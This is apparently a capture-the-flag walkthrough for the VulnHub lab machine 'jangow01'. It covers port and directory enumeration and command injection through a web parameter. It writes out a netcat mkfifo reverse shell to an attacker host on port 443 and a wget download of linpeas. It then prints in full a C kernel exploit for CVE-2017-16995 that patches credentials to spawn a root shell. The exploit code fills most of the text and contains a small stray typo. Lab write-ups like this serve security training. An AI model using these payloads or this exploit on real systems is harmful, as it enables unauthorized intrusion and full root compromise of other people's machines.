







## Abstract

[jangow001](https://www.vulnhub.com/entry/jangow-101,754/) is a vulnerable box from [vulnhub](https://www.vulnhub.com/). It's categorized as an easy machine. During initial enumeration we walk the website and pretty soon we discover a RCE in the homepage. We try to use some well know reverse shells but we hit a roadblock because of filtered outgoing connections. After we solve that problem we get an initial foothold and using linpeas it's pretty straightforward. We find the exploit, compile it and finally run it and get the root shell. 

## Enumeration

### nmap

=== "initial"

    ```bash hl_lines="6 11"
    └─# nmap -sC -sV 192.168.0.28 -oA nmap/inital_scan 
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-16 22:32 CET
    Nmap scan report for 192.168.0.28
    Host is up (0.00038s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    80/tcp open  http    Apache httpd 2.4.18
    | http-ls: Volume /
    | SIZE  TIME              FILENAME
    | -     2021-06-10 18:05  site/
    |_
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Index of /
    MAC Address: 08:00:27:87:2C:C8 (Oracle VirtualBox virtual NIC)
    Service Info: Host: 127.0.0.1; OS: Unix
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 14.80 seconds
    ```


=== "extended"

    ```bash
    └─# nmap -p- 192.168.0.28 -oA nmap/extended_scan  
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-16 22:41 CET
    Nmap scan report for 192.168.0.28
    Host is up (0.00021s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE
    21/tcp open  ftp
    80/tcp open  http
    MAC Address: 08:00:27:87:2C:C8 (Oracle VirtualBox virtual NIC)
    
    Nmap done: 1 IP address (1 host up) scanned in 104.52 seconds
    ```


## Web Footprinting

### Directory

Looking at the IP we see a folder ```site```. Going into that folder we see a homepage.

We are starting a recursive ffuf scan, 5 levels deep, to see if something is inside this folder.

```bash
└─# ffuf -u http://192.168.0.28/site/FUZZ -w /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -e .php -recursion -recursion-depth 5 -c -fc 403 -v -o  enumeration/ffuf                                                                                                             1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.28/site/FUZZ
 :: Wordlist         : FUZZ: /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Extensions       : .php 
 :: Output file      : enumeration/ffuf
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403
________________________________________________

[Status: 301, Size: 318, Words: 20, Lines: 10]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/assets
| --> | http://192.168.0.28/site/assets/
    * FUZZ: assets

[INFO] Adding a new job to the queue: http://192.168.0.28/site/assets/FUZZ

[Status: 301, Size: 321, Words: 20, Lines: 10]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/wordpress
| --> | http://192.168.0.28/site/wordpress/
    * FUZZ: wordpress

[INFO] Adding a new job to the queue: http://192.168.0.28/site/wordpress/FUZZ

[Status: 301, Size: 315, Words: 20, Lines: 10]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/css
| --> | http://192.168.0.28/site/css/
    * FUZZ: css

[INFO] Adding a new job to the queue: http://192.168.0.28/site/css/FUZZ

[Status: 301, Size: 314, Words: 20, Lines: 10]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/js
| --> | http://192.168.0.28/site/js/
    * FUZZ: js

[INFO] Adding a new job to the queue: http://192.168.0.28/site/js/FUZZ

[Status: 200, Size: 10190, Words: 3711, Lines: 174]                                                                                                                                                                                                                                                                          
| URL | http://192.168.0.28/site/
    * FUZZ: 

[INFO] Starting queued job on target: http://192.168.0.28/site/assets/FUZZ

[Status: 301, Size: 322, Words: 20, Lines: 10]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/assets/img
| --> | http://192.168.0.28/site/assets/img/
    * FUZZ: img

[INFO] Adding a new job to the queue: http://192.168.0.28/site/assets/img/FUZZ

[Status: 200, Size: 1146, Words: 74, Lines: 18]                                                                                                                                                                                                                                                                              
| URL | http://192.168.0.28/site/assets/
    * FUZZ: 

[INFO] Starting queued job on target: http://192.168.0.28/site/wordpress/FUZZ

[Status: 200, Size: 87, Words: 10, Lines: 1]                                                                                                                                                                                                                                                                                 
| URL | http://192.168.0.28/site/wordpress/config.php
    * FUZZ: config.php

[Status: 200, Size: 10190, Words: 3711, Lines: 174]                                                                                                                                                                                                                                                                          
| URL | http://192.168.0.28/site/wordpress/
    * FUZZ: 

[INFO] Starting queued job on target: http://192.168.0.28/site/css/FUZZ

[Status: 200, Size: 948, Words: 61, Lines: 17]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/css/
    * FUZZ: 

[INFO] Starting queued job on target: http://192.168.0.28/site/js/FUZZ

[Status: 200, Size: 949, Words: 64, Lines: 17]                                                                                                                                                                                                                                                                               
| URL | http://192.168.0.28/site/js/
    * FUZZ: 

[INFO] Starting queued job on target: http://192.168.0.28/site/assets/img/FUZZ

[Status: 200, Size: 1811, Words: 98, Lines: 21]                                                                                                                                                                                                                                                                              
| URL | http://192.168.0.28/site/assets/img/
    * FUZZ: 

:: Progress: [53168/53168] :: Job [6/6] :: 6655 req/sec :: Duration: [0:00:06] :: Errors: 24 ::

```

We find a wordpress folder with a config.php. It seems like it's the only file in there. No other interesting folders found


### Website

Looking at the website it seems like a simple  template based on bootstrap. Checking the menu items we stumble upon a php file


Adding some values to the ```buscar``` parameter we discover a low hanging fruit, a RCE (remote code execution)



We intercept the request with burpsuite and send it to the repeater so we can easily manipulate the values for the buscar parameter.




In the repeater tab we confirm it still works.



Now we try a bash reverse shell. We look at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md) for a reverse shell. After trying and failing with a bash reverse shell we try the mostly reliable nc reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.14 4242 >/tmp/f
```

We add this to the buscar parameter and url-encode it so we get

```bash
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.0.14+2424+>/tmp/f
```


We still got nothing but we can see the command tries to connect and after a while it has a time-out. So there has to be some kind of firewall or ids that prevents outgoing connections. We can try random higher ports but it seems like it's blocked. So let's try with some well-known ports every web-server may have open (since it's running and hosting a web-site). We start with port 443 (https) and we get in at the first attempt.

On the attacker machine start nc listener on port 443:

```
nc -nlvp 443
```

The buscar-parameter value we change the port, add it in burpsuite and hit send

```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.0.14+2424+>/tmp/f
```



And we have a shell:




Now we need to stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
CTRL + Z and type in:
stty raw -echo && fg
export TERM=xterm-256-color
```

Now the shell is stable with tab complete


## Exploitation Research

```sudo -l```, setuid search and crontab list don't give as any result. But we see it's a pretty old kernel version. Anyway, we decide to run leanpeas and see what we get

We need to download or move [linpeas.sh](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) in a folder where we are gonna start a python web server. Since we know that ports are blocked, we use port 443 again , but we have to run this command as root.

On the attacker machine:

```
sudo python -m SimpleHTTPServer 443
```

On the victim machine we move to a writable folder and download linpeas.sh

```
cd /tmp
wget 192.168.0.14:443/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

The last tee command is used to be able to watch linpeas work and at the same time write the results to the .txt file.

Wee look for yellow/red and red entries

One of the first entries is:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                             
  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching 72 exploits...

  Possible Exploits
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

```


## Exploitation

### Exploit

First exploit didn't work for me, second exploit needed x11 so I didn't even try. So let's try the third one.

Visit the link and read the comments in the code (how to use it, how to compile and things like that)

Open vim and paste the code into vim. I've named the file ```exploit.c```

```c
/*
  Credit @bleidl, this is a slight modification to his original POC
  https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c
  
  For details on how the exploit works, please visit
  https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   
  Tested on Ubuntu 16.04 with the following Kernels
  4.4.0-31-generic
  4.4.0-62-generic
  4.4.0-81-generic
  4.4.0-116-generic
  4.8.0-58-generic
  4.10.0.42-generic
  4.13.0-21-generic

  Tested on Fedora 27
  4.13.9-300
  gcc cve-2017-16995.c -o cve-2017-16995
  internet@client:~/cve-2017-16995$ ./cve-2017-16995
  [.]
  [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
  [.]
  [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
  [.]
  [*] creating bpf map
  [*] sneaking evil bpf past the verifier
  [*] creating socketpair()
  [*] attaching bpf backdoor to socket
  [*] skbuff => ffff880038c3f500  
  [*] Leaking sock struct from ffff88003af5e180
  [*] Sock->sk_rcvtimeo at offset 472
  [*] Cred structure at ffff880038704600
  [*] UID from cred structure: 1000, matches the current: 1000
  [*] hammering cred structure at ffff880038704600
  [*] credentials patched, launching shell...
  #id
  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(internet)
  
*/

#include <errno.h>
#include <fcntl.h>
#include <stdarg.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/bpf.h>
#include <linux/unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/stat.h>
#include <sys/personality.h>

char buffer[64];
int sockets[2];
int mapfd, progfd;
int doredact = 0;

#define LOG_BUF_SIZE 65536
#define PHYS_OFFSET 0xffff880000000000
char bpf_log_buf[LOG_BUF_SIZE];

static __u64 ptr_to_u64(void *ptr)
{
	return (__u64) (unsigned long) ptr;
}

int bpf_prog_load(enum bpf_prog_type prog_type,
		  const struct bpf_insn *insns, int prog_len,
		  const char *license, int kern_version)
{
	union bpf_attr attr = {
		.prog_type = prog_type,
		.insns = ptr_to_u64((void *) insns),
		.insn_cnt = prog_len / sizeof(struct bpf_insn),
		.license = ptr_to_u64((void *) license),
		.log_buf = ptr_to_u64(bpf_log_buf),
		.log_size = LOG_BUF_SIZE,
		.log_level = 1,
	};

	attr.kern_version = kern_version;

	bpf_log_buf[0] = 0;

	return syscall(__NR_bpf, BPF_PROG_LOAD, &attr, sizeof(attr));
}

int bpf_create_map(enum bpf_map_type map_type, int key_size, int value_size,
		   int max_entries, int map_flags)
{
	union bpf_attr attr = {
		.map_type = map_type,
		.key_size = key_size,
		.value_size = value_size,
		.max_entries = max_entries
	};

	return syscall(__NR_bpf, BPF_MAP_CREATE, &attr, sizeof(attr));
}

int bpf_update_elem(int fd, void *key, void *value, unsigned long long flags)
{
	union bpf_attr attr = {
		.map_fd = fd,
		.key = ptr_to_u64(key),
		.value = ptr_to_u64(value),
		.flags = flags,
	};

	return syscall(__NR_bpf, BPF_MAP_UPDATE_ELEM, &attr, sizeof(attr));
}

int bpf_lookup_elem(int fd, void *key, void *value)
{
	union bpf_attr attr = {
		.map_fd = fd,
		.key = ptr_to_u64(key),
		.value = ptr_to_u64(value),
	};

	return syscall(__NR_bpf, BPF_MAP_LOOKUP_ELEM, &attr, sizeof(attr));
}

#define BPF_ALU64_IMM(OP, DST, IMM)				\
	((struct bpf_insn) {					\
		.code  = BPF_ALU64 | BPF_OP(OP) | BPF_K,	\
		.dst_reg = DST,					\
		.src_reg = 0,					\
		.off   = 0,					\
		.imm   = IMM })

#define BPF_MOV64_REG(DST, SRC)					\
	((struct bpf_insn) {					\
		.code  = BPF_ALU64 | BPF_MOV | BPF_X,		\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = 0,					\
		.imm   = 0 })

#define BPF_MOV32_REG(DST, SRC)					\
	((struct bpf_insn) {					\
		.code  = BPF_ALU | BPF_MOV | BPF_X,		\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = 0,					\
		.imm   = 0 })

#define BPF_MOV64_IMM(DST, IMM)					\
	((struct bpf_insn) {					\
		.code  = BPF_ALU64 | BPF_MOV | BPF_K,		\
		.dst_reg = DST,					\
		.src_reg = 0,					\
		.off   = 0,					\
		.imm   = IMM })

#define BPF_MOV32_IMM(DST, IMM)					\
	((struct bpf_insn) {					\
		.code  = BPF_ALU | BPF_MOV | BPF_K,		\
		.dst_reg = DST,					\
		.src_reg = 0,					\
		.off   = 0,					\
		.imm   = IMM })

#define BPF_LD_IMM64(DST, IMM)					\
	BPF_LD_IMM64_RAW(DST, 0, IMM)

#define BPF_LD_IMM64_RAW(DST, SRC, IMM)				\
	((struct bpf_insn) {					\
		.code  = BPF_LD | BPF_DW | BPF_IMM,		\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = 0,					\
		.imm   = (__u32) (IMM) }),			\
	((struct bpf_insn) {					\
		.code  = 0, 					\
		.dst_reg = 0,					\
		.src_reg = 0,					\
		.off   = 0,					\
		.imm   = ((__u64) (IMM)) >> 32 })

#ifndef BPF_PSEUDO_MAP_FD
# define BPF_PSEUDO_MAP_FD	1
#endif

#define BPF_LD_MAP_FD(DST, MAP_FD)				\
	BPF_LD_IMM64_RAW(DST, BPF_PSEUDO_MAP_FD, MAP_FD)

#define BPF_LDX_MEM(SIZE, DST, SRC, OFF)			\
	((struct bpf_insn) {					\
		.code  = BPF_LDX | BPF_SIZE(SIZE) | BPF_MEM,	\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = OFF,					\
		.imm   = 0 })

#define BPF_STX_MEM(SIZE, DST, SRC, OFF)			\
	((struct bpf_insn) {					\
		.code  = BPF_STX | BPF_SIZE(SIZE) | BPF_MEM,	\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = OFF,					\
		.imm   = 0 })

#define BPF_ST_MEM(SIZE, DST, OFF, IMM)				\
	((struct bpf_insn) {					\
		.code  = BPF_ST | BPF_SIZE(SIZE) | BPF_MEM,	\
		.dst_reg = DST,					\
		.src_reg = 0,					\
		.off   = OFF,					\
		.imm   = IMM })

#define BPF_JMP_IMM(OP, DST, IMM, OFF)				\
	((struct bpf_insn) {					\
		.code  = BPF_JMP | BPF_OP(OP) | BPF_K,		\
		.dst_reg = DST,					\
		.src_reg = 0,					\
		.off   = OFF,					\
		.imm   = IMM })

#define BPF_RAW_INSN(CODE, DST, SRC, OFF, IMM)			\
	((struct bpf_insn) {					\
		.code  = CODE,					\
		.dst_reg = DST,					\
		.src_reg = SRC,					\
		.off   = OFF,					\
		.imm   = IMM })

#define BPF_EXIT_INSN()						\
	((struct bpf_insn) {					\
		.code  = BPF_JMP | BPF_EXIT,			\
		.dst_reg = 0,					\
		.src_reg = 0,					\
		.off   = 0,					\
		.imm   = 0 })

#define BPF_DISABLE_VERIFIER()                                                       \
	BPF_MOV32_IMM(BPF_REG_2, 0xFFFFFFFF),             /* r2 = (u32)0xFFFFFFFF   */   \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_2, 0xFFFFFFFF, 2),   /* if (r2 == -1) {        */   \
	BPF_MOV64_IMM(BPF_REG_0, 0),                      /*   exit(0);             */   \
	BPF_EXIT_INSN()                                   /* }                      */   \

#define BPF_MAP_GET(idx, dst)                                                        \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),              /* r1 = r9                */   \
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),             /* r2 = fp                */   \
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),            /* r2 = fp - 4            */   \
	BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),           /* *(u32 *)(fp - 4) = idx */   \
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),             \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),            /* if (r0 == 0)           */   \
	BPF_EXIT_INSN(),                                  /*   exit(0);             */   \
	BPF_LDX_MEM(BPF_DW, (dst), BPF_REG_0, 0)          /* r_dst = *(u64 *)(r0)   */              

static int load_prog() {
	struct bpf_insn prog[] = {
		BPF_DISABLE_VERIFIER(),

		BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_1, -16),   /* *(fp - 16) = r1       */

		BPF_LD_MAP_FD(BPF_REG_9, mapfd),

		BPF_MAP_GET(0, BPF_REG_6),                         /* r6 = op               */
		BPF_MAP_GET(1, BPF_REG_7),                         /* r7 = address          */
		BPF_MAP_GET(2, BPF_REG_8),                         /* r8 = value            */

		/* store map slot address in r2 */
		BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),               /* r2 = r0               */
		BPF_MOV64_IMM(BPF_REG_0, 0),                       /* r0 = 0  for exit(0)   */

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 0, 2),             /* if (op == 0)          */
		/* get fp */
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_10, 0),
		BPF_EXIT_INSN(),

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 1, 3),             /* else if (op == 1)     */
		/* get skbuff */
		BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_10, -16),
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),
		BPF_EXIT_INSN(),

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 2, 3),             /* else if (op == 2)     */
		/* read */
		BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_7, 0),
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),
		BPF_EXIT_INSN(),
		/* else                  */
		/* write */
		BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0), 
		BPF_EXIT_INSN(),

	};
	return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog), "GPL", 0);
}

void info(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[.] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void msg(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[*] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void redact(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	if(doredact) {
		fprintf(stdout, "[!] ( ( R E D A C T E D ) )\n");
		return;
	}
	fprintf(stdout, "[*] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void fail(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[!] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
	exit(1);
}

void 
initialize() {
	info("\n");
	info("t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)\n");
	info("\n");
	info("  ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **\n");
	info("\n");

	redact("creating bpf map\n");
	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 3, 0);
	if (mapfd < 0) {
		fail("failed to create bpf map: '%s'\n", strerror(errno));
	}

	redact("sneaking evil bpf past the verifier\n");
	progfd = load_prog();
	if (progfd < 0) {
		if (errno == EACCES) {
			msg("log:\n%s", bpf_log_buf);
		}
		fail("failed to load prog '%s'\n", strerror(errno));
	}

	redact("creating socketpair()\n");
	if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)) {
		fail("failed to create socket pair '%s'\n", strerror(errno));
	}

	redact("attaching bpf backdoor to socket\n");
	if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0) {
		fail("setsockopt '%s'\n", strerror(errno));
	}
}

static void writemsg() {
	ssize_t n = write(sockets[0], buffer, sizeof(buffer));
	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer)) {
		fprintf(stderr, "short write: %zd\n", n);
	}
}

static void 
update_elem(int key, unsigned long value) {
	if (bpf_update_elem(mapfd, &key, &value, 0)) {
		fail("bpf_update_elem failed '%s'\n", strerror(errno));
	}
}

static unsigned long 
get_value(int key) {
	unsigned long value;
	if (bpf_lookup_elem(mapfd, &key, &value)) {
		fail("bpf_lookup_elem failed '%s'\n", strerror(errno));
	}
	return value;
}

static unsigned long
sendcmd(unsigned long op, unsigned long addr, unsigned long value) {
	update_elem(0, op);
	update_elem(1, addr);
	update_elem(2, value);
	writemsg();
	return get_value(2);
}

unsigned long
get_skbuff() {
	return sendcmd(1, 0, 0);
}

unsigned long
get_fp() {
	return sendcmd(0, 0, 0);
}

unsigned long
read64(unsigned long addr) {
	return sendcmd(2, addr, 0);
}

void
write64(unsigned long addr, unsigned long val) {
	(void)sendcmd(3, addr, val);
}

static unsigned long find_cred() {
	uid_t uid = getuid();
	unsigned long skbuff = get_skbuff();
	/*
	 * struct sk_buff {
	 *     [...24 byte offset...]
	 *     struct sock     *sk;
	 * };
	 *
	 */

	unsigned long sock_addr = read64(skbuff + 24);
	msg("skbuff => %llx\n", skbuff);
	msg("Leaking sock struct from %llx\n", sock_addr);	
	if(sock_addr < PHYS_OFFSET){
		fail("Failed to find Sock address from sk_buff.\n");
	}	
		
	/*
	 * scan forward for expected sk_rcvtimeo value.
	 *
	 * struct sock {
	 *    [...]
	 *    const struct cred      *sk_peer_cred; 
	 *    long                    sk_rcvtimeo;             
	 *  };
	 */
	for (int i = 0; i < 100; i++, sock_addr += 8) {
		if(read64(sock_addr) == 0x7FFFFFFFFFFFFFFF) {
			unsigned long cred_struct = read64(sock_addr - 8);
			if(cred_struct < PHYS_OFFSET) {
				continue;
			}
			
			unsigned long test_uid = (read64(cred_struct + 8) & 0xFFFFFFFF);
			
			if(test_uid != uid) {
				continue;
			}
                        msg("Sock->sk_rcvtimeo at offset %d\n", i * 8);
                        msg("Cred structure at %llx\n", cred_struct);
			msg("UID from cred structure: %d, matches the current: %d\n", test_uid, uid);
			
			return cred_struct;
		}
	}
	fail("failed to find sk_rcvtimeo.\n");
}

static void
hammer_cred(unsigned long addr) {
	msg("hammering cred structure at %llx\n", addr);
#define w64(w) { write64(addr, (w)); addr += 8; }
	unsigned long val = read64(addr) & 0xFFFFFFFFUL;
	w64(val); 
	w64(0); w64(0); w64(0); w64(0);
	w64(0xFFFFFFFFFFFFFFFF); 
	w64(0xFFFFFFFFFFFFFFFF); 
	w64(0xFFFFFFFFFFFFFFFF); 
#undef w64
}

int
main(int argc, char **argv) {
	initialize();
	hammer_cred(find_cred());
	msg("credentials patched, launching shell...\n");
	if(execl("/bin/sh", "/bin/sh", NULL)) {c
		fail("exec %s\n", strerror(errno));
	}
}
            
```


Compile with:

```
gcc exploit.c -o exploit
```

Execute:

```
./exploit
```

And you are root



After that you can go into the root folder and cat the ```proof.txt```

```
# cd /root
# ls
proof.txt
# cat proof.txt
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&                          
                       @  @@@@@@@@@@@@@@@&#   #@@@@@@@@&(.    /&@@@@@@@@@@                          
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@                          
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@                          
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&                    
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&                    
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&                    
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@                   
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @                   
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@                  
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@                 
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@                 
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@                 
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@                  
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@                  
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@                   
